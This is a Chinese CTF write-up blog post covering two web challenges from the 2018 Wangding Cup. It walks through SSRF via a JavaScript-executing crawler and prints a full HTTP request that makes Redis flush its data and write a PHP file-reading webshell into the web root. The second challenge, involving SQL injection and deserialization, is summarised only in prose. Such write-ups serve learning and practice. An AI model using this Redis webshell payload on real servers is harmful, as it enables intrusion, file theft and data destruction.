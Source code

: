 ```yaml
---
layout: post
title: 网鼎杯第一场 Web 总结
date: 2018-08-20 11:13:40
tags:
- CTF
- Web
- Exploit
categories: CTF
description: 总结比赛中二道 Web 题目
---
```

一年没做 CTF 了，想来假期无聊去试试这个比赛。Web 题目因为各种原因下午才真正放出

### 【第一题 Spider】 

比赛的官方 wrtieup：<https://mp.weixin.qq.com/s/yZ-Xp32tCPWbDiFgAHiWgw>

在这题比赛过程遇到的问题：

- 应该先扫目录和文件，CTF 中 robots、flag.php、后台等这类尤其重要
- javascript 运用需要熟练。本题需要 HTTP 访问操作、端口扫描和结合 redis 的 getshell 操作
- 解决 Web 题需要具备的能力：快速搞懂应用流程，建立其运行模型，并且需要猜测服务端的运行原理

这道题的动态爬虫（因为服务端会解析并运行 javascript）导致了一个 SSRF

<https://segmentfault.com/a/1190000004322487>  XMLHttpRequest  教程，分析较深入

![img](https://saferman.github.io/assets/img/ctf/readyState.png)

可以页面调试，发现 readyState 会逐渐变换
XMLHttpRequest.status 返回服务器状态码   浏览器调试发现一直为 0，后来明白执行了跨域操作
编写 Javascript  执行 AJAX 请求和 JS 端口扫描 （参考官方 writeup）



接着根据提示 Redis getShell 和 8000 端口：因为不同端口，所以存在跨域，需要加上 Access-Control-Allow-Origin:* 头部。构造一个 Redis EXP。（参考官方 writeup）

Burp 截包如下：

```
POST / HTTP/1.1
Host: 127.0.0.1:6379
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: /
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1/
Content-Length: 320
Content-Type: multipart/form-data; boundary=---------------------------15762740617557
Origin: http://127.0.0.1
Connection: close

-----------------------------15762740617557
Content-Disposition: form-data; name="0"

flushall
config set dir /var/www/html/
config set dbfilename shell.php
set 1 "\n\n<?php header('Access-Control-Allow-Origin:*'); echo file_get_contents($_GET[0]);?>\n\n"
save
quit
-----------------------------15762740617557--
```

至此写入 webshell

### 【第二题 fakebook】

本题就是 SQL+反序列化+LFR，挺简单的

找到页面的注册点，使用 sqlmap 扫出问题然后查看目录的 robots.txt 文件发现有 user.php.bak，下载查看到 UserInfo 类的源码，最后反序列化读取 flag.php 得到 FLAG



